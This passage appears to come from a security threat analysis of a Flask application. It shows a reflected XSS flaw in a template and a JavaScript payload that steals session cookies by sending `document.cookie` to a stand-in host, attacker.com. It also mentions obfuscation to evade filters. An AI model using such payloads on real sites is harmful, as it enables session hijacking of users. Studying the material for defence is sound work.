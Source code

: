         app = Flask(__name__)

        @app.route('/')
        def index():
            name = request.args.get('name', 'Guest')
            return render_template('index.html', name=name)
        ```

        And the `index.html` template:

        ```html
        <!DOCTYPE html>
        <html>
        <head><title>Welcome</title></head>
        <body>
            <h1>Welcome, {{ name }}!</h1>
        </body>
        </html>
        ```

        If a user visits `/index?name=<script>alert('XSS')</script>`, the JavaScript will execute because the `name` variable is directly inserted into the HTML without proper escaping.

*   **4.2.2. Attacker crafts a malicious JavaScript payload designed to steal session cookies.**

    *   **JavaScript Payload for Cookie Theft:** The core of the payload is JavaScript code that accesses the `document.cookie` property, which contains all cookies accessible to the current page.  The attacker then needs to send this cookie data to their own server.

    *   **Example Payload:**

        ```javascript
        (function(){
            var cookie = document.cookie;
            var img = new Image();
            img.src = "https://attacker.com/steal?cookie=" + encodeURIComponent(cookie);
        })();
        ```

        **Explanation:**
        *   `document.cookie`: Retrieves all cookies for the current domain.
        *   `encodeURIComponent(cookie)`: Encodes the cookie string to be safely included in a URL.
        *   `new Image()`: Creates a new image object.
        *   `img.src = "https://attacker.com/steal?cookie=" + ...`: Sets the image source to a URL on the attacker's server (`attacker.com/steal`).  When the browser tries to load this "image," it will make a GET request to the attacker's server, including the stolen cookie in the query parameter. The attacker's server can then log or process this cookie.

    *   **Sophisticated Payloads:** Attackers can use more sophisticated payloads, including:
        *   Using `XMLHttpRequest` or `fetch` for more reliable data transmission (especially for larger cookies or POST requests).
        *   Obfuscation techniques to evade basic XSS filters.
        *   Targeting specific session cookie names (e.g., `session`, `flask_session`).
        *   Including additional information like the victim's IP address, user agent, or page URL.

*   **4.2.3. Attacker injects the XSS payload into the application.**
